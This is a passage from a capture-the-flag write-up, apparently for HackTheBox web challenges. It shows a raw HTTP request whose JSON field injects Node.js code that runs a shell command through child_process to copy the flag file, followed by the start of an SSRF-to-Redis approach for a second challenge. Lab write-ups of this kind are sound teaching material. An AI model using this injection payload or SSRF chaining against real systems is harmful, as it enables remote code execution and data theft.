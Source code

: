 We successfully obtained the flag.

```
POST /api/activity HTTP/1.1
Host: 165.227.224.55:31747
Content-Length: 151
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36
DNT: 1
Content-Type: application/json
Accept: */*
Origin: http://165.227.224.55:31747
Referer: http://165.227.224.55:31747/interface
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,id;q=0.8
Cookie: session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNjUyOTU0NzU1fQ.vldF7xPFUtbh1SgPY6RJ-nPl07ExbLScjw4ugOlc9dI
Connection: close

{"activity":"feed'+process.mainModule.require('child_process').execSync('cat /fl* > /app/static/flag')+'","health":"60","weight":"42","happiness":"50"}
```

![](spiky-7.png)

**HTB{3sc4p3d_bec0z_n0_typ3_ch3ck5}**

### Red Island (325 points)

The value of this challenge is 325 points & +90 players have solved this challenge.

![](red-1.png)

We're given a website for login and registration.

![](red-2.png)

In the dashboard, We could fetch an image from another URL

![](red-3.png)

In general, this kind of feature is vulnerable to `Local File Read` or `Server Side Request Forgery`.

![](red-4.png)

We attempted to find the flag file, so our next attempt is to read the source code instead.

![](red-5.png)

As we can see, there's a library involved with `Redis`. With chaining the known vulnerability, We assume it's an SSRF.

There's an article that explains how to access Redis service using gopher protocol. 

